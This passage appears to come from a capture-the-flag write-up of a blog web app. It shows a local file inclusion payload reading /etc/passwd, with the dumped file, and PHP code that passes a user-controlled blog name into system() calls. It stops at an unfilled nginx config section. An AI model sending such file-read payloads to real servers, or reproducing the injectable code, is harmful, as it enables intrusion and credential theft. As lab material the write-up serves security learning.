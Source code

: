     ```
    id=/etc/passwd&txt=test
    ```
    - <details>
        <summary>contents of <code>/etc/passwd</code></summary>

        ```    
        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
        games:x:5:60:games:/usr/games:/usr/sbin/nologin
        man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
        lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
        news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
        uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
        proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
        www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
        backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
        list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
        irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
        gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
        nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
        _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
        systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
        systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
        systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
        systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
        cooper:x:1000:1000::/home/cooper:/bin/bash
        redis:x:103:33::/var/lib/redis:/usr/sbin/nologin
        git:x:104:111:Git Version Control,,,:/home/git:/bin/bash
        messagebus:x:105:112::/nonexistent:/usr/sbin/nologin
        sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
        _laurel:x:997:997::/var/log/laurel:/bin/false
        ```
        </details>
- if we do have write permissions, we can also use this to create new files
- The code shows that there are additional functions for so-called pro accounts. An additional `/uploads` directory is created for a blog of a pro user account, in which pro users are granted write permissions:
    
    ```php
    function provisionProUser() {
        if(isPro() === "true") {
            $blogName = trim(urldecode(getBlogName()));
            system("chmod +w /var/www/microblog/" . $blogName);
            system("chmod +w /var/www/microblog/" . $blogName . "/edit");
            system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
            system("mkdir /var/www/microblog/" . $blogName . "/uploads && **chmod 700 /var/www/microblog/" . $blogName . "/uploads**");
            system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
        }
        return;
    }
    ```
- we can use the LFI vulnerability to retrieve the nginx configuration by setting the `id` parameter to `/etc/nginx/sites-enabled/default`
    - <details>
        <summary>contents of <code>/etc/nginx/sites-enabled/default</code></summary>
            